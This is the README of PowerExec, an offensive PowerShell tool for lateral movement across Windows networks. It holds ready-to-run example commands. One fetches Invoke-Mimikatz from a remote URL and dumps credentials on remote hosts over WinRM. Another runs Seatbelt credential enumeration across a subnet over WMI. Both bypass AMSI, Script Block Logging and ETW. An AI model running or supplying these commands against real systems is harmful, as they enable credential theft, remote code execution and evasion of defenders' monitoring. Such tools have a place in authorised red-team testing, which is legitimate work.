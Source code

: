 # PowerExec

PowerExec is a PowerShell tool to move laterally on a Windows network.

## Functions

```
Invoke-PowerExec                -   execute PowerShell script block on remote computers through various techniques
New-PowerLoader                 -   build script block which safely loads PowerShell or .NET assembly
```

## Examples

Run a PowerShell script through WinRM using a download cradle while bypassing Antimalware Scan Interface (AMSI) and Script Block Logging (SBL):

```
PS C:\> New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI,SBL | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Protocol WinRM
```

Run a .NET assembly through WMI while bypassing AMSI and Event Tracing for Windows (ETW):

```
PS C:\> New-PowerLoader -Type NetAsm -FilePath .\Seatbelt.exe -ArgumentList 'CredEnum' -Bypass AMSI,ETW | Invoke-PowerExec -ComputerList 192.168.1.0/24 -Protocol WMI -Threads 10
```

## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
